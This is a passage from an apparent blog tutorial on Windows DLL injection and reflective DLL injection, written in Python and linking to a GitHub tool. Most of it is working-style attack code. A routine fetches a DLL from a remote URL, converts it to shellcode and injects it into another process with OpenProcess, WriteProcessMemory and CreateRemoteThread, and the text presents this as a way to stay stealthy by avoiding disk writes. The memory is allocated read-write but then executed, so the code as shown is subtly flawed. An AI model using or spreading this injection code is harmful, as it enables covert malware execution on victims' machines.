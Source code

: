 `load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")`

We have the load library address now, all we need to do is to create a thread to execute the loaded DLL. 

`rthread = CreateRemoteThread(handle, None, 0, load_lib, memory, EXECUTE_IMMEDIATELY, None)`

# Reflective DLL Injection
When we use DLL Injection we have to write the DLL to the disk. This is a big compromise if we are trying to be "stealthy". Windows does not have a LoadLibrary function that supports loading a DLL from memory rather than from disk. In order to do so, we have to write our own function. There are also other techniques for reflecting DLL injection such as using the SetThreadContext() and NtContinue() functions to change a thread's registers and perform a restoration process. 

In this post, we will convert our DLL into shellcode and then inject it into a remote process. We can use the function ConvertToShellcode from [here](https://github.com/monoxgas/sRDI). 

```
from ShellcodeRDI import *

dll = open("TestDLL_x86.dll", 'rb').read()
shellcode = ConvertToShellcode(dll)
```

Now we need to take this shellcode and inject it into a remote process. This can be done with a shellcode runner but we'll need to modify it to use OpenProcess() and other APIs to interact with a remote process. 

```
def method2(url, pid):
    dll = urllib.request.urlopen(url, 'rb').read()
    shellcode = ConvertToShellcode(dll)

    handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)
    print("[+] Obtaining handle...")
    time.sleep(2)

    memory = VirtualAllocEx(handle, False, len(shellcode) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)
    print("[+] Allocating memory in remote process...")
    time.sleep(2)

    write = WriteProcessMemory(handle, memory, shellcode, len(shellcode) + 1, None)
    print("[+] Writing payload into process memory...")
    time.sleep(2)

    print("[+] Execution completed.")

    rthread = CreateRemoteThread(handle, None, 0, memory, None, EXECUTE_IMMEDIATELY, None)
```

[Link to the code on github](https://github.com/momo1239/buffdawg)
